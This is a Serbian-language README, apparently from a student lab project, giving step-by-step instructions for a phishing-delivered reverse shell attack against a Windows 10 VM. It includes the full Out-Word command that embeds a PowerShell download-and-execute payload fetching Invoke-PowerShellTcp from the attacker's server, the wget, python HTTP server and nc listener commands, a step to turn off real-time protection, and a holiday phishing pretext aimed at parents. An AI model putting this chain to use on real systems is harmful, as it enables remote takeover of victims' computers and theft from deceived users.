









# Instrukcije za izvršeni napad

Reverse shell attack je napad u kojem računar žrtve inicira vezu ka računaru napadača (ne svojom voljom), omogućavajući napadaču pristup komandnoj liniji računara žrtve. U dokumentu se nalaze detaljne instrukcije za izvršeni napad na datom projektu.

## Sadržaj

- [Kratak opis načina izvođenja napada](#kratak-opis)
- [Kreiranje malicioznog word dokumenta](#kreiranje-malicioznog-word-dokumenta)
- [Kreiranje phishing mejla](#kreiranje-phishing-mejla)
- [Kreiranje HTTP Servera za osluškivanje](#kreiranje-http-servera-za-osluškivanje)
- [Primer uspešnog napada](#primer-uspešnog-napada)

## Kratak opis

Napad se sastoji iz tri koraka:

&ensp;&ensp;1. Kreiranje malicioznog word dokumenta preko kojeg će žrtva inicirati konekciju ka napadaču

&ensp;&ensp;2. Kreiranje phishing mejla preko kojeg će žrtva preuzeti maliciozni word dokument

&ensp;&ensp;3. Kreiranje HTTP servera preko kojeg će napadač osluškivati zahteve za konekcuju

Operativni sistemi žrtve i napadača podignuti su na virtuelnoj mašini kako bi se osigurala sigurnost. Operativni sistem žrtve je Windows 10, dok je operativni sistem napača Kali Linux. Softver koji je korišćen u kreiranju virtuelnih mašina je Oracle VM VirtualBox.

Za kreiranje malicioznog word dokumenta i HTTP servera koriste se shell skripte koje se mogu pronaći na sledećem GitHub repozitorijumu: [nishang](https://github.com/samratashok/nishang)

## Kreiranje malicioznog word dokumenta

Maliciozni word dokument kreiran je na operativnom sistemu žrtve (Windows 10). Koraci su sledeći:

&ensp;&ensp;1. Nakon pokretanja operativnog sistema, potrebno je isključiti real-time protection.

&ensp;&ensp;2. Zatim, potrebno je preuzeti nishang GitHub repozitorijum: [nishang](https://github.com/samratashok/nishang)

&ensp;&ensp;3. Ekstraktovati repozitorijum na željenu lokaciju, otvoriti direktorijum u powershell-u kao administrator i pozicionirati se u poddirektorijum Client.

&ensp;&ensp;4. Uneti komandu koja će da dot source-uje dokument pomoću kojeg se kreira maliciozni word dokument (Out-Word.ps1).

`. .\Out-Word.ps1`

&ensp;&ensp;4. Nakon toga, potrebno je uneti komandu koja će kreirati maliciozni word dokument. Potrebno je izmeniti dve IP adrese u komandi na adresu napadača, kao i definisati putanju gde će se sačuvati fajl i dodeliti mu se proizvoljno ime.

`Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadString('http//127.0.0.1/Invoke-PowerShellTcp.ps1');reverse -Reverse -IPAddress 127.0.0.1 -Port 4444" -OutputFile C:\Users\vboxuser\Desktop\malware_word_document.doc`

## Kreiranje phishing mejla

Nakon kreiranja malicioznog word dokumenta, potrebno je sastaviti phishing mejl, pronaći i prevariti žrtvu. U našem primeru, sastavljen je mejl koji traži od žrtve da preuzme dokument i u njega unese informacije svoje dece da bi deca mogla dobiti navode paketiće. Ideja je takva da bi se mejl slao u prazničnom periodu.

## Kreiranje HTTP Servera za osluškivanje

Server koji osluškuje konekcije od žrtve biće kreiran na operativnog sistemu napadača (Kali Linux). Koraci su sledeći:

&ensp;&ensp;1. U terminalu uneti komandu koja će preuzeti fajl sa skriptom za payload attack.

`wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`

&ensp;&ensp;2. Otvoriti preuzeti fajl i dodati sledeću liniju na kraj. Potrebno je IP adresu zameniti sa IP adresom napadača.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.4 -Port 4444`

&ensp;&ensp;3. Pokrenuti HTTP server i listener-a u dva zasebna terminala.

`sudo python3 -m http.server 80`

`nc -lvnp 4444`

## Primer uspešnog napada

Ako je sve podešeno kako je potrebno, uspešan napad bi trebao da izgleda:

